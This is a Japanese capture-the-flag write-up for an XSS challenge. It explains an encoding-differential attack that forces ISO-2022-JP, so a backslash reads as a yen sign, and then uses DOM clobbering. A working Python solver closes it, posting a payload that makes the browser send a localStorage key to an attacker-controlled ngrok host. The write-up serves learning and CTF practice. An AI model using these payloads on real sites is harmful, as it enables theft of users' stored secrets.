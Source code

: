 ### 解法

まず注目するべきはエンコーディングである。`Content-Type`は`text/html`であり、エンコーディングが指定されていない。したがって、ヘッダーにメタタグがあればそれが適用されるという状態である。

テンプレート内には`<meta charset="UTF-8">`があるため、通常であればこれが適用される。ただし、その直前に`titleElem`が挿入できるためどうにかしてこのタグを無効化して、別のエンコーディングを利用できるようにしたい。`titleElem`に`<meta charset="ISO-2022-JP">`と指定できればそちらが優先されるかもしれないが、`meta`という文字を含むとHTMLエスケープされてしまうため不可能である。

ここで、[Sekai CTF 2024 - htmlsandbox](https://0xalessandro.github.io/posts/sekai/)の想定解を利用する。このwriteupによると、ChromeではHTMLが複数のパケットを通して受信される場合、最初のパケットのみを利用してエンコーディングを決定するそうだ。したがって、2番目以降のパケットにmetaタグでエンコーディングが指定されていたとしてもこれが無視されるという形になる。

`titleElem`に挿入される`name`には文字数制限が無いため、これを十分に大きくすることでmetaタグを2つ目以降のパケットで送るようにすることができた。また、htmlsandboxはChromeの問題であったが、Firefoxでも同様の挙動をすることがわかった。

以上の方法により、[ISO-2022-JPを利用したXSS](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)が可能となる。`titleElem`に`\x1b(J`を挿入することで、ブラウザがsniffingによりHTMLをISO-2022-JPの認識するようになり、また、それ以降の`\`が`¥`として解釈されることとなる。

この状態で`prefix`を`";alert(1)//`とすると、
```javascript
const prefix = "\";alert(1)//"
```
のように代入される。これはISO-2022-JPの環境では、
```javascript
const prefix = "¥";alert(1)//"
```
として解釈される。これは有効なjavascriptなため、`alert(1)`が実行される。

あとは、25文字という文字数制限の中で、`localstorage.get('key')`の中身を取り出すことを考える。定義されている関数のうち、`getKey()`は`localstorage.get('key')`を返すので、`getKey()`を実行してその結果を自分のサーバーに送るようなコードを書きたい。

ここで、DOM Clobberingを利用する。`<img id=a>`という要素がHTML上にある場合、javascript内においてこの要素を`a`というグローバル変数を通してアクセスできるという仕組みである。

`img`タグは、`src`アトリビュートが書き換わった場合、そのURLに対して再度問い合わせを行い、画像を更新しようとする。これを利用して、`img`タグの`src`を事前に自分のサーバーを指すようにしておき、`a.src+=getKey()`とすればその内容が自分のサーバーに送られるといったことが可能である。

### 最終的なコード

```python:solver.py
import webbrowser
import requests

URL = "http://104.198.119.144:7891/"
# URL = "http://localhost:7891/"
EVIL = "https://xxx.ngrok.app/"

s = requests.session()
data = {
    "name": f"</title></head><body>\x1b(J<img id=a src={EVIL}? />" + "a" * 65535,
    "prefix": f"\";a.src+=getKey()//"
}
print(len(data['prefix']))
r = s.post(URL + "preset", json=data)
print(r.status_code)
print(r.text)
id = r.json()['id']
# webbrowser.open(URL + "presets/" + id)
print(URL + "presets/" + id)
```